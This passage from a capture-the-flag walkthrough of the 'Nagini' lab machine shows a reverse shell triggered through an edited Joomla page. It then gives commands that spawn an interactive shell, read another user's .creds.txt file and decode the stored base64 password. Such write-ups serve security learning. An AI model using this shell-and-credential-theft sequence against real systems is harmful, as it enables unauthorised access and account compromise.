 Once saved, just go to [http://quic.nagini.hogwarts/joomla/infex.php](http://quic.nagini.hogwarts/joomla/infex.php) and **BOOOOOOOOOM**.... We got a reverse shell in our meterpreter.

![Alt text](./HARRY_POTTER_NAGINI/img/reverse.PNG?raw=true "REVERSE SHELL")

At this point we can open the shell and start exploring:

```bash
meterpreter > shell
Process 3482 created.
Channel 0 created.
export TERM=xterm
python3  -c "import pty;pty.spawn('/bin/bash')"

```

I always like to see how many users there are in the system, so I navigate in the home and noted 2 users, **snape** and **hermoine**.

I went first on the snape home directory and find the .creds.txt file which contains some base64 information so i decoded it and find something I'll try next as password. Let's see the steps:

```bash
www-data@Nagini:/home/snape$ cd /home
cd /home
www-data@Nagini:/home$ ls
ls
hermoine  snape
www-data@Nagini:/home$ cd sna
cd snape/
www-data@Nagini:/home/snape$ ls -l
ls -l
total 0
www-data@Nagini:/home/snape$ ls -la
ls -la
total 32
drwxr-xr-x 4 snape snape 4096 Apr  4 17:09 .
drwxr-xr-x 4 root  root  4096 Apr  4 00:22 ..
-rw-r--r-- 1 snape snape  220 Apr  3 23:57 .bash_logout
-rw-r--r-- 1 snape snape 3526 Apr  3 23:57 .bashrc
-rw-r--r-- 1 snape snape   17 Apr  4 10:35 .creds.txt
drwx------ 3 snape snape 4096 Apr  4 16:38 .gnupg
-rw-r--r-- 1 snape snape  807 Apr  3 23:57 .profile
drwx------ 2 snape snape 4096 Apr  4 10:42 .ssh
www-data@Nagini:/home/snape$ cat .cre
cat .creds.txt
TG92ZUBsaWxseQ==
www-data@Nagini:/home/snape$ cat .creds.txt |base64 -d
cat .creds.txt |base64 -d
Love@lilly
```
